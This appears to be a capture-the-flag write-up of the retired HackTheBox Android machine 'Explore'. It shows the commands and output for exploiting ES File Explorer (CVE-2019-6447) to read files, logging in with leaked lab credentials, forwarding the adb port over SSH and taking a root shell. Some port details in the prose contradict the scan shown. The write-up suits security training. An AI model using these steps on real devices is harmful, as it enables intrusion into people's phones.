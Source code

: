 Title:HTB: Exlore
Date: 11-01-2021 09:15
category:security
tags:security, boot2root, HTB, Android, exploit, adb
meta:security, boot2root, HTB, Android, exploit, adb

<img class="align-left" src="/media/2021.11/explore_card.png" alt="Explore card" width="262">


This is a writeup about a retired HacktheBox machine:
[Explorer](https://www.hackthebox.eu/home/machines/profile/356) created by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897) and publish on
June 26, 2021.
This box is classified as an easy machine. The user part involves an Android
exploit for ES File Explorer and the root part a simple port forward and an `adb` shell.

<!-- PELICAN_END_SUMMARY -->

# User

## Reco

We start with an nmap scan. Only ports 22 (SSH) and 8080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jul 10 02:07:06 2021 as: nmap -sSV -A -p- -oN notes.md 10.129.153.142
    Nmap scan report for 10.129.153.142
    Host is up (0.012s latency).
    Not shown: 65530 closed ports
    PORT      STATE    SERVICE VERSION
    2222/tcp  open     ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    5555/tcp  filtered freeciv
    33427/tcp open     unknown
    <SNIP>
    42135/tcp open     http    ES File Explorer Name Response httpd
    |_http-title: Site doesn't have a title (text/html).
    59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
    |_http-title: Site doesn't have a title (text/plain).
    <SNIP>

The nmap scan hint us that the "box" is an Android device (port 5555 for adb,
Banana ssh server and ES File Explorer).

A quick google search "ES File Explorer exploit" allows us to find an
[arbitrary file read exploit](https://www.exploit-db.com/exploits/50070).

We run it and are able to list the files on the Android phone but nothing there
will give us a shell (we are still abe to get the user flag).
We list the pictures and found the `creds.png` file.


    :::text
    └─$ python3 50070.py listPics 10.129.153.142

    ==================================================================
    |    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
    |                Coded By : Nehal a.k.a PwnerSec                 |
    ==================================================================

    name : concept.jpg
    time : 4/21/21 02:38:08 AM
    location : /storage/emulated/0/DCIM/concept.jpg
    size : 135.33 KB (138,573 Bytes)

    name : anc.png
    time : 4/21/21 02:37:50 AM
    location : /storage/emulated/0/DCIM/anc.png
    size : 6.24 KB (6,392 Bytes)

    name : creds.jpg
    time : 4/21/21 02:38:18 AM
    location : /storage/emulated/0/DCIM/creds.jpg
    size : 1.14 MB (1,200,401 Bytes)

    name : 224_anc.png
    time : 4/21/21 02:37:21 AM
    location : /storage/emulated/0/DCIM/224_anc.png
    size : 124.88 KB (127,876 Bytes)


The file is a picture of (beautifully) handwritten credential: `kristi:Kr1sT!5h@Rp3xPl0r3!`

We can use this credentials to connect using SSH and get the user flag.

    :::text
    └─$ ssh kristi@10.129.153.142 -p2222 #Kr1sT!5h@Rp3xPl0r3!
    Password authentication
    Password:
    Password authentication
    Password:
    Password authentication
    Password:
    kristi@10.129.153.142's password:
    :/ $ id
    uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cat /sdcard/user.txt
    f32017174c7c7e8f50c6da52891ae250

# Root

We saw in out initial port scan that the port 5555 (adb) was filtered. We use
SSH to access the port directly from the device by creating an SSH Local forward
tunnel.

    :::text
    └─$ ssh -L 5557:127.0.0.1:5555 kristi@10.129.43.55 -p2222
    Password authentication
    Password:
    :/ $ id
    uid=10076(u0_a76)

In another terminal we can run `adb` to list the device, connect to the box,
run a shell as root and grab the flag.

    :::text
    └─$ adb devices
    List of devices attached
    127.0.0.1:5557  device
    └─$ adb connect 127.0.0.1:5557
    already connected to 127.0.0.1:5557
    └─$ adb -s 127.0.0.1:5557 shell                                                                                                                                                                                                          1 ⨯
    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
    :/ # find / -name 'root.txt' 2> /dev/null
    /data/root.txt
    1|:/ # cat data/root.txt
    f04fc82b6d49b41c9b08982be59338c5

## Wrapping up

A "quick" and easy box. I spent way to much time on the root part as my `adb`
demon was acting weirdly and I thought the issue was on my port forwarding.

